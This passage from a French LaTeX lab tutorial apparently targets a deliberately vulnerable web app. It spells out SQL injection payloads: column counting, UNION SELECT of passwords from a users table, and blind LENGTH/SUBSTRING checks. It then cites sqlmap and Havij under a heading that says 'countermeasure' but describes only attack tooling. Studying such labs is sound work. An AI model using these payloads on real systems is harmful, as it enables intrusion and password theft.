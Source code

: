 \begin{verbatim}
L'injection [ ' ORDER BY 1 # ], sans les crochets, ne renvoie rien,  par contre 
[ ' ORDER BY 3 # ] affiche "Unknown column '3' in 'order clause' ". 
La requête du script PHP utilise donc deux champs.
\end{verbatim} 

\begin{verbatim}
Ensuite, des injections [ ' UNION SELECT password, last_name FROM xxxx # ]
où xxxx désigne un nom de table évocant une liste d'utilisateurs ; on testera
utilisateurs, users, user, etc
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = longeur # ] avec longueur = 1, 2, 3, ... 
vont permettre, itérativement, de connaître la taille du mot de passe.
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = 8 AND SUBSTRING(password,1,1)='a' # ] 
testent si le mot de passe commence par "a".
\end{verbatim} 
\subsection{Contre-mesure}

On le voit ce type d'attaques peut devenir rapidement fastidieuses, voire impraticables. Une approche médiane consiste à écrire des scripts en python important des modules comme httplib et urllib.

Enfin, des produits sur étagères comme Burp suite/sqlmap ou, mieux,   \href{www.itsecteam.com}{havij} permettent de s'attaquer aux niveaux "Low", "Medium" "High" de manière plus efficace. Havij est cependant un outil windows ; Sous fedora 26, on doit installer une machine virtuelle windows ;  l'utilisation de wine est quant à elle souvent hasardeuse.

\clearpage

\newpage

\section{Attaques Reflected XSS (non persistante)}

